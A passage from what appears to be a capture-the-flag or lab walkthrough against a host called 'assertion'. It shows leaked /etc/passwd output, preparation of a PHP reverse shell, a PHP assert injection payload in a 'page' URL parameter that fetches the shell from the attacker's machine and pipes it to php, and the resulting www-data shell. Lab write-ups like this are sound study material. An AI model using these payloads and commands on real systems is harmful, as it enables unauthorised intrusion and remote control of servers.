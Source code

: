 ```
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
soz:x:1000:1000:Faisal:/home/soz:/bin/bash
fnx:x:1001:1001::/home/fnx:/bin/sh
fnx:x:1001:1001::/home/fnx:/bin/sh
kali@kali:~$

```

Now that we can inject code, we can download and run a reverse shell payload.

Let’s first start by copying the shell from **/usr/share/webshells/php/php-reverse-shell.php** and editing it with our local machine’s IP and port.

```
kali@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/assertion-shell.php
kali@kali:~$ cd /tmp/
kali@kali:/tmp$ grep 'CHANGE THIS' assertion-shell.php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

kali@kali:/tmp$ vim assertion-shell.php
kali@kali:/tmp$ grep 'CHANGE THIS' assertion-shell.php
$ip = '192.168.118.9';  // CHANGE THIS
$port = 443;       // CHANGE THIS

```

Then start a web server to serve the file.

```
kali@kali:/tmp$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Start our netcat listener.

```
kali@kali:~$ sudo nc -nvlp 443
listening on [any] 443 ...

```

And trigger it.

```
kali@kali:~$ curl "http://192.168.120.218/index.php?page='+and+die(system('curl+http://192.168.118.9/assertion-shell.php|php'))+or+'"
```

We receive the shell on our listener.

```
kali@kali:~$ sudo nc -nvlp 443listening on [any] 443 ...connect to [192.168.118.9] from (UNKNOWN) [192.168.120.218] 36032Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux 19:00:04 up 2 days, 22:37,  0 users,  load average: 0.00, 0.00, 0.00USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHATuid=33(www-data) gid=33(www-data) groups=33(www-data)/bin/sh: 0: can't access tty; job control turned off$ python -c 'import pty; pty.spawn("/bin/bash")'www-data@assertion:/$
```

